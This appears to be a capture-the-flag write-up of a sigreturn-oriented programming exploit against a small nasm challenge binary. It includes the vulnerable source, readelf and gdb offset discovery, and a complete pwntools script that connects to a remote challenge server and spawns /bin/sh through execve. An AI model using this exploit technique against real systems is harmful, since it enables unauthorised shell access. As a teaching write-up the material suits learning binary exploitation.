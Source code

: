 # SigReturn Exploit - Thanks to @Legacyy for this explanation! => https://www.legacyy.xyz/
https://en.wikipedia.org/wiki/Sigreturn-oriented_programming  
https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit  
https://bananamafia.dev/post/srop/  

### nasm file
Challenge taken from https://digitaloverdose.ractf.co.uk/campaign/pwn/ropuzzle-v0. Insanely fun.

```asm
section .text
global _start

section .data
msg db '/bin/sh' <- symbol msg is a defined byte that is set as `/bin/sh`

section .text

_start:
    push rbp
    mov rbp, rsp
    call get_input
    call exit

get_input:
    push rbp
    mov rbp, rsp
    mov rax, 0x0
    mov rdi, 0x0
    mov rsi, rsp
    mov rdx, 4096
    call syscall_me
    leave
    ret

syscall_me:
    syscall
    ret

exit:
    mov rax, 0x3c
    mov rdi, 0x0
    syscall
    call exit

gadget:
    pop rax
    ret

```

### retrieving offsets for `/bin/sh`

```
readelf -s ./main

Symbol table '.symtab' contains 11 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS main.nasm
     2: 0000000000402000     0 NOTYPE  LOCAL  DEFAULT    2 msg <- offset for msg is 0x402000
     3: 000000000040100e     0 NOTYPE  LOCAL  DEFAULT    1 get_input
     4: 000000000040102b     0 NOTYPE  LOCAL  DEFAULT    1 syscall_me <- offset for syscall_me is 0x40102b
     5: 000000000040102e     0 NOTYPE  LOCAL  DEFAULT    1 exit
     6: 000000000040103f     0 NOTYPE  LOCAL  DEFAULT    1 gadget <- offset for gadget is 0x40103f
     7: 0000000000401000     0 NOTYPE  GLOBAL DEFAULT    1 _start
     8: 0000000000402007     0 NOTYPE  GLOBAL DEFAULT    2 __bss_start
     9: 0000000000402007     0 NOTYPE  GLOBAL DEFAULT    2 _edata
    10: 0000000000402008     0 NOTYPE  GLOBAL DEFAULT    2 _end

```

### debugging the binary using gdb

```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _start
0x000000000040100e  get_input
0x000000000040102b  syscall_me
0x000000000040102e  exit
0x000000000040103f  gadget
gdb-peda$ disas get_input
Dump of assembler code for function get_input:
   0x000000000040100e <+0>:     push   rbp
   0x000000000040100f <+1>:     mov    rbp,rsp
   0x0000000000401012 <+4>:     mov    eax,0x0
   0x0000000000401017 <+9>:     mov    edi,0x0
   0x000000000040101c <+14>:    mov    rsi,rsp
   0x000000000040101f <+17>:    mov    edx,0x1000
   0x0000000000401024 <+22>:    call   0x40102b <syscall_me>
   0x0000000000401029 <+27>:    leave  
   0x000000000040102a <+28>:    ret    
End of assembler dump.
```

### SigReturn Exploit Script
```py
from pwn import *

context.arch = "amd64"

#p = process("./main")
p = remote("193.57.159.27", 65277)

syscall = 0x40102b # syscall is the offset for syscall_me function
gadget = 0x40103f # pop rax ; ret; This was retrieved from both the nasm file and or ROPGadget --binary ./main
binsh = 0x402000 # `/bin/sh` offset retrieved by running readelf -s ./main

frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b # 59 => execve => runs a file you specify
frame.rdi = binsh # calls the specified file `/bin/sh`
frame.rsi = 0 # no arguments called for bin sh
frame.rdx = 0 # no environmental variables
frame.rsp = 0 # nothing specified for the stack pointer
frame.rip = syscall


buf = b"A"*8
buf += p64(gadget) + p64(0xf) # rax executes sigreturn which is 0xf
buf += p64(syscall) # call syscall_me
buf += bytes(frame) # call SigreturnFrame


p.send(buf)
p.interactive()
```
